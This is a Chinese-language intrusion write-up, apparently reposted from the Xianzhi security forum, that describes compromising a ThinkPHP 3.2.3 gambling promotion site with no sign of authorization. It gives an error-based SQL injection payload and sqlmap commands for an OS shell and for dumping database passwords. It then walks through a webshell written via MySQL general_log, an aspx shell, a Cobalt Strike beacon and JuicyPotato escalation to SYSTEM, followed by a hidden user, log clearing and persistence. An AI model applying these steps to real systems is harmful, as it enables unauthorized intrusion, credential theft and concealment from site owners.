首发先知论坛
起因
最近在fofa翻目标C段的时候，碰巧看到了这个站便记了下来，等下班回家后直接拿下
目标环境
BC类的活动页很多都是 thinkphp二改的站,我们主要确定当前tp的版本号

目标环境信息
- Windows
- ThinkPHP v.3.2.3
- 开启Debug模式
- 网站绝对路径 D:\web1\abc.com\wwlsoeprsueords\
用工具扫描日志文件

tp3 注入漏洞不存在，日志文件在 /addons/Runtime/Logs/admin/ 路径下，但并没有扫到任何的日志文件，猜测日志文件可能为另外一个命名格式
eg. 1606510976-20_11_28.log
时间戳-年_月_日.log
该站点没有上CDN，在fofa上搜IP发现999端口为phpmyadmin页面

寻找注入
一般来说，这类的活动推广页申请进度查询是存在注入的，用burp抓包

payload 如下：
username=123’ and (extractvalue(1,concat(0x7e,(select user()),0x7e))))–+&id=13
果不其然，存在注入，还是root权限，直接就上sqlmap跑
python3 sqlmap.py -r 1.txt --random-agent --dbms=mysql --os-shell

还跑了几种其他类型的注入，但我们直接 --os-shell报错，尝试了几次都一样返回No output，猜测可能有某种防护产品
getshell
前面我们有找到phpmyadmin页面，我们枚举数据库账户和密码
python3 sqlmap.py –r 1.txt --string="Surname" --users --password

并且已经帮我们解码明文了，root账号登录后报错#1045 无法登录服务器,换成 dog1账号登录成功
phpmyadmin写shell：
- 导出文件
- 写日志文件
SHOW GLOBAL VARIABLES LIKE "%secure%";
当secure_file_priv的值为null ，表示限制mysql 不允许导入|导出
当secure_file_priv的值没有具体值时，表示不对mysql 的导入|导出做限制

不允许导出，换写日志文件方法
SHOW VARIABLES LIKE '%general%'

用命令打开日志保存状态，设置日志保存路径
set global general_log = “ON”;
set global general_log_file=’D:/web1/abc.com/robots.php’;
在sql查询语句处执行我们的php一句话，然后用蚁剑去连日志文件robots.php即可getshell

绕过限制上线cs
查看phpinfo()，发现ban了成吨的函数，无法执行命令

我们可以上传aspx马进行绕过

现在可以执行命令了，但还是无法查看相关文件夹等其他问题。

查看系统有无杀软，准备上线
tasklist /svc

没有任何杀软，用cs生成exe上传到根目录，然后启动执行上线

用烂土豆可以直接提到system权限

直接通过注册表查是否开启3389，端口号是多少
REG QUERY “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections # 查看RDP服务是否开启：1关闭，0开启
REG QUERY “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp” /v PortNumber # 查看RDP服务的端口

建一个隐藏用户直接远程登录过去，清除日志，做自启动，拿下该站点
